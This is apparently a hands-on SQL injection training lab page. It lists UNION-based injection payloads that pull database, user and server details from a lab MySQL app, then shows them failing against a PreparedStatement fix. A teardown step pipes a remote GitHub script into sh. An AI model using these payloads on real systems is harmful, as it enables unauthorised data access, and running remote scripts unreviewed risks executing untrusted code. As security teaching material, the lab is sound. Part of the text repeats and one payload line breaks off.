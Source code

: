 Attack

S


a' UNION ALL SELECT null,DATABASE(),null,null'Copy
You will see the database name under the header First Name

Now try other attacks (Each line is one payload)

a' UNION ALL SELECT null,system_user(),null,null'
a' UNION ALL SELECT null,@@GLOBAL.innodb_data_file_path,null,null'
a' UNION ALL SELECT null,@@GLOBAL.bind_address,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_os,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_machine,null,null'
a' UNION ALL SELECT null,@@GLOBAL.tls_version,null,null'
a' UNION ALL SELECT null,@@GLOBAL.block_encryption_mode,null,null'
a' UNION ALL SELECT null,@@GLOBAL.default_authentication_plugin,null,null'
a' UNION ALL SELECT null,@@GLOBAL.hostname,null,null'
a' UNION ALL SELECT null,@@GLOBAL.secure_file_priv,null,null'
a' UNION ALL SELECT null,@@GLOBAL.hostname,@@GLOBAL.bind_address,CURRENT_USER()'
a' or '1=1
test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,IFNULL(CAST(CURRENT_USER() AS CHAR),0x20),0x717a626a71),NULL-- YgfE
test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,(CASE WHEN ((SELECT super_priv FROM mysql.user WHERE user=0x726f6f74 LIMIT 0,1)=0x59) THEN 1 ELSE 0 END),0x717a626a71),NULL-- SSaoCopy
Defend
Step 1: On the browser, access http://<server-ip>:8888/SQLInjection/secure
Substitute your server-ip here for the placeholder <server-ip>

Step 2: In the search bar search for any user you have created based on first name
  
  
  
  a' UNION ALL SELECT null,DATABASE(),null,null'Copy
You will see the database name under the header First Name

Now try other attacks (Each line is one payload)

a' UNION ALL SELECT null,system_user(),null,null'
a' UNION ALL SELECT null,@@GLOBAL.innodb_data_file_path,null,null'
a' UNION ALL SELECT null,@@GLOBAL.bind_address,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_os,null,null'
a' UNION ALL SELECT null,@@GLOBAL.version_compile_machine,null,null'
a' UNION ALL SELECT null,@@GLOBAL.tls_version,null,null'
a' UNION ALL SELECT null,@@GLOBAL.block_encryption_mode,null,null'
a' UNION ALL SELECT null,@@GLOBAL.default_authentication_plu

Step 3: Now test for SQL Injection payload

' or '1=1Copy
This should not return any value

Here the fix is a PreparedStatement query from line numbers 87 to 90 in the file /root/sql-injection/src/main/java/we45/training/labs/Secure.java

Teardown
Step 1: Change to directory
cd /root/sql-injectionCopy
Step 2: Stop the app
curl -sSL https://raw.githubusercontent.com/we45/xml-files/master/clean-docker.sh | shCopy

